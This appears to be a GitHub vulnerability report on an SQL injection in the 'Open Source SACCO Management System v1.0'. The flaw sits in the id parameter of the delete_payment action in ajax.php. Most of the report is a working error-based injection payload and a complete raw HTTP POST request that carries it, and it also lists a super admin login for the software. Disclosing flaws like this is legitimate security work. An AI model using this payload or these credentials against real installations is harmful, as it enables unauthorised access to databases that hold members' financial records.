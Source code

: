 # Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author:  Via

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/ajax.php?action=delete_payment

Vulnerability location: /sacco_shield/ajax.php?action=delete_payment, id

dbname = sacco,length=5

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /sacco_shield/ajax.php?action=delete_payment HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191199438-761e958a-3c8a-42e7-8abc-2026f9a975b2.png)
